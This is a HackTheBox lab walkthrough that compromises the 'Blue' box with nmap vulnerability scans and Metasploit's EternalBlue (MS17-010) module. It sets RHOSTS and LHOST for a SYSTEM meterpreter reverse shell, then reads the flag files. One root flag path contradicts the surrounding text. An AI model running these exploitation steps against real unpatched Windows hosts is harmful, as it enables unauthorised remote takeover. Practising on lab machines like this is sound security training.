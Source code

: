 # HackTheBox Writeup: Blue
![Blue Details](/Blue/images/Blue-Details.png)

Blue is an easy Windows-based retired box available on HackTheBox. It is also one of the OSCP-like boxes available to practice on. In this walkthrough, I will guide you through the process compromising Blue.

## System Setup and Initial Steps
I’ll be using a somewhat customized version of Kali Linux running in a virtual machine for this guide. These steps are reproducible in a default installation of Kali Linux, but you may have to install some additional tools.

I like to make a dedicated folder for each box to keep track of any scan results or exploits we need to work with. I normally use the convention of saving them to a folder such as `~/HackTheBox/[boxname]`.

Before beginning, you have to connect to HackTheBox using the VPN connection package they provide you with when you register an account. I use small script I wrote to do so quickly (which I will make available on my github). I have the script aliased to ‘hackthebox-connect’. The script also outputs your IP address on the HackTheBox network, which will be useful when we start attacking the box.

![hackthebox-connect](/Blue/images/hackthebox-connect.PNG)

## Initial Enumeration
Blue is located at 10.10.10.40. The first step is to scan the system using a scanner such as `nmap`.

### Nmap Scanning
I like to run nmap in two different sets of scans. The first scan is a quick scan to get us started on the box. The second scan is a more intensive scan that will check every port.
To run a relatively fast scan that will check each service, attempt to discover the operating system of the target system, and run a few additional nmap scripting engine scripts, you can use the following command:
```
nmap -sV -sC -O 10.10.10.40 -oN Blue-quick.nmap
```
The above command will save its output in a file called `Blue-quick.nmap`, which you can check the contents of using `cat` or `less`. This scan shows us the following:

![Quick Nmap Scan](/Blue/images/Blue-Quick-Nmap.PNG)

I also find it helpful to do a more fulsome nmap scan. This normally takes a while, so I leave it running in the background while I get started with the quick scan. I normally run something similar to:
```
nmap -p- -sV -sC -O -A -v -T4 --script vuln 10.10.10.40 -oN Blue-full.nmap
```
The key component to this scan is that it checks all TCP ports with `-p-` and it runs the "vuln" category of nmap scripting engine scripts, which will scan the target for vulnerabilities. Here, the output of this command includes the following:

![Full Nmap Scan](/Blue/images/Blue-Full-Nmap.PNG)

### Other Initial Enumeration Techniques
`nmap` is a tool that is generally available by default in the default depositories of most Linux distributions, so it is generally preferable to use it and be familiar with it since you will likely always have access to it.

For HackTheBox and other CTF challenges, you can take a look at some tools that are designed to make the process go faster. For example, [AutoRecon](https://github.com/Tib3rius/AutoRecon) can quickly launch a number of scans against a target system. It saves the output of each scan in a dedicated file, making it easy to go back and review.

### Thinking About The Enumeration Results
Based on our nmap scanning, we know that the target is a Windows machine. Our fulsome nmap scan is also reporting that the box is running a vulnerable version of [SMB](https://www.wikiwand.com/en/Server_Message_Block).

Although there are a number of ports open here and many potential paths forward, our fulsome nmap scan has presented us with a path of least resistance.

If we search the internet for `smb-vuln-ms17-010` and `CVE-2017-0143`, it doesn't take long to find that CVE-2017-0143 is related to a family of [other vulnerabilities](https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010) which allow for remote code execution. Some further digging will reveal the namesake of the box: the exploit for this family of vulnerabilities is called [EternalBlue](https://www.wikiwand.com/en/EternalBlue). We can thank the NSA for developing the exploit and making our path forward clear.

## Exploitation: Exploiting the SMB Vulnerability
Since EternalBlue is a relatively (in)famous exploit, there is a metasploit module for it. We can start metasploit with `msfconsole`.

![Msfconsole](/Blue/images/msfconsole.PNG)

Then, we can run a search for available modules by running:
```
search eternalblue
```
or
```
search ms17-010
```
or
```
search 2017-0143
```
![Search for modules](/Blue/images/metasploit-search.PNG)

Now we have a list of available modules. Modules #2-5 are exploits, so we want to focus here. Module 5 on first glance appears to be the best, with a rank of 'Great' and the ability to check if the target is vulnerable, but Blue is not actually vulnerable to the doublepulsar exploit. The next best one is #2, which provides us with the ability to check to see if the exploit works. You will now want to select that module with the following command:
```
use exploit/windows/smb/ms17_010_eternalblue
```
Now that we have the module selected, we need to customize the options to make sure it works in this specific circumstance. Check the available options by running `options`. You then need to configure them with the following commands:
```
set RHOSTS [the target's IP address. In this case, 10.10.10.40]
set LHOST [Your HackTheBox IP address (outputted by hackthebox-connect). Using tun0 here also works.]
```
![Setting the options](/Blue/images/metasploit-set-options.PNG)

Now you can check to see if the target is vulnerable by running `check`.

![Check](/Blue/images/metasploit-check.PNG)

Now initiate the exploit with `run` and you should be dropped into a meterpreter shell.
![Exploit](/Blue/images/metasploit-exploit.PNG)

We can check what our username is by using the mterpreter command `getuid`, which shows that we are NT AUTHORITY\SYSTEM.
![Getuid](/Blue/images/metasploit-getuid.PNG)

## Post-Exploitation
### Getting the User Flag
We can get a shell on the system by running the meterpreter command `shell`. Once we have a shell, we can poke around the system. First, we can check who the users are by running:
```
dir C:\Users
```
![Users Directory](/Blue/images/dir-users.PNG)

And now we can check through haris' home folder. On the Desktop, you will find a file called `user.txt`, which we can read with the command `type C:\Users\haris\Desktop\user.txt`.

![User Flag](/Blue/images/Enumerate-Haris-Home.PNG)

Now we have the user flag!

### Getting the Root Flag
We know that we are NT AUTHORITY\SYSTEM, so we should be able to access the files in the "Administrator" user folder. Looking through the Administrator's files using `dir`, we find the file `root.txt` on the Desktop, which we can read with the command `type C:\Users\haris\Administrator\root.txt`.

![Root Flag](/Blue/images/Enumerate-Administrator-Home.PNG)

You now have the root flag and have completed Blue!
